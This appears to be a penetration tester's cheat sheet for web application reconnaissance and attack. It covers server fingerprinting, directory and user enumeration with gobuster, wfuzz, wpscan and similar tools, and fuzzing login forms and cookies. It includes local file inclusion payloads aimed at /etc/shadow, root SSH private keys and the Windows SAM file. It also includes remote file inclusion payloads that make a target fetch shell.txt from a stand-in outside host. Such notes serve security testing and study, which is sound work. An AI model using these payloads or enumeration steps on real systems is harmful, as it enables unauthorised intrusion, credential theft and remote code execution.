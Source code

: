 # HTTP General Notes


### Step 1: ALWAYS LOOK AT THE SOURCE CODE OF THE WEBPAGE!

### Manual Connect
Using **openssl** to connect to a webserver (HTTPS):

```
openssl s_client -connect hack.me:443 [-debug] [-state] [-quiet]
```

- Debug flag optional.
- State is optional - prints the state of the handshake.
- Quiet is optional. 

Using **Httprint** to identify web servers:
`httprint -P0 -h <target hosts> -s <signature file>`

- `-P0`  to avoid pinging the host first
- `-h` the list of hosts (IP addresses/IP range)
- `-s` signature file to use


### Common Wordlists to use for Web App Scanning: 

Common Wordlists to use for Web Directory Scanning: 
```
/usr/share/wordlists/dirb/common.txt
/usr/share/wordlists/dirbuster/*.txt
/usr/share/wordlists/wfuzz/general/*.txt
/usr/share/seclists/Discovery/Web-Content/
```

Common Wordlists to use for User Enumeration Scanning: 
```
/usr/share/seclists/Usernames
/usr/share/wordlists/dirbuster/apache-user-enum-2.0
```

### Web App Scanners

Nikto: 

- `nikto --url <domain>`

Wpscan:

- `wpscan --url <domain>`
- `wpscan --url <domain> --enumerate ap at` (All Plugins, All Themes)
- `wpscan --url <domain> --enumerate u` (Usernames)
- `wpscan --url <domain> --enumerate v`

Web Tools for Directory Scanning: 

Dirb: 

- `dirb <domain>`
- `dirb <domain> <wordlist>`

Gobuster: 

- `gobuster dir -u <url> -w /usr/share/wordlists/<Wordlist file>`
- `gobuster dir -u <url> -w /usr/share/wordlists/<Wordlist file> -a Firefox` (Custom Agent)
- `gobuster dir -u <url> -w /usr/share/wordlists/<Wordlist file> -x .php,.txt,.html`
- `gobuster dir -u <url> -w /usr/share/wordlists/<Wordlist file> -x .php,.txt,.html -s "200"`
- `gobuster dir -e -u <url> -w /usr/share/wordlists/<Wordlist file> -x .php,.txt,.html -s "200"`
- `gobuster dir -v -e -u <url> -w /usr/share/wordlists/<Wordlist file> -x .php,.txt,.html -s "200"`
- `gobuster dir -v -e -u <url> -w /usr/share/wordlists/<Wordlist file> -x .php,.txt,.html -s "200" -o output.txt`
- `gobuster dir -s 200,204,301,302,307,403 -u 172.21.0.0 -w /usr/share/seclists/Discovery/Web_Content/big.txt -t 80 -a 'Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0'`
	

Wfuzz:

- `wfuzz -w wordlist/general/common.txt http://testphp.vulnweb.com/FUZZ`
- `wfuzz -z range,0-10 --hl 97 http://testphp.vulnweb.com/listproducts.php?cat=FUZZ`
- `wfuzz -z file,wordlist/others/common_pass.txt -d "uname=FUZZ&pass=FUZZ"  --hc 302 http://testphp.vulnweb.com/userinfo.php` (Post Requests)
- `wfuzz -z file,wordlist/general/common.txt -b cookie=value1 -b cookie2=value2 http://testphp.vulnweb.com/FUZZ` (Fuzzing Cookies)

Dirsearch: 

- `dirsearch /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 172.21.0.0 -e php`


Other Tools: 
- Burp Suite
- OWASP Zap
- Cadaver
- SQLMap
- Joomscan
- Feroxbuster

### Testing for LFI: 

https://www.exploit-db.com/docs/english/40992-web-app-penetration-testing---local-file-inclusion-(lfi).pdf

Examples: 

http://example.com/index.php?page=etc/passwd
http://example.com/index.php?page=etc/passwd%00
http://example.com/index.php?page=../../etc/passwd
http://example.com/index.php?page=%252e%252e%252f
http://example.com/index.php?page=....//....//etc/passwd

Interesting Files:

Linux:
```
/etc/passwd
/etc/shadow
/etc/issue
/etc/group
/etc/hostname
/etc/ssh/ssh_config
/etc/ssh/sshd_config
/root/.ssh/id_rsa
/root/.ssh/authorized_keys
/home/user/.ssh/authorized_keys
/home/user/.ssh/id_rsa
```

Windows:
```
/boot.ini
/autoexec.bat
/windows/system32/drivers/etc/hosts
/windows/repair/SAM
```


### Testing for RFI: 

http://example.com/index.php?page=http://callback.com/shell.txt
http://example.com/index.php?page=http://callback.com/shell.txt%00
http://example.com/index.php?page=http:%252f%252fcallback.com%252fshell.txt

### Resources

- Turning LFI to RFI: https://l.avala.mp/?p=241